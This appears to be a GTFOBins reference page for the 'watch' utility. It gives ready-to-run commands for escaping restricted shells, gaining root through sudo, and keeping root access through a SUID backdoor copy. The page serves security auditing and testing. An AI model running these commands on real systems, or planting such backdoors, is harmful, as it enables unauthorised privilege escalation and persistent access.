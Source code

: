 # GTFOBin: watch

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
watch -x sh -c 'reset; exec sh 1>&0 2>&0'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This keeps the SUID privileges only if the `-x` option is present.

```
sudo install -m =xs $(which watch) .

./watch -x sh -p -c 'reset; exec sh -p 1>&0 2>&0'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo watch -x sh -c 'reset; exec sh 1>&0 2>&0'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which watch) .

./watch 'reset; exec sh 1>&0 2>&0'
```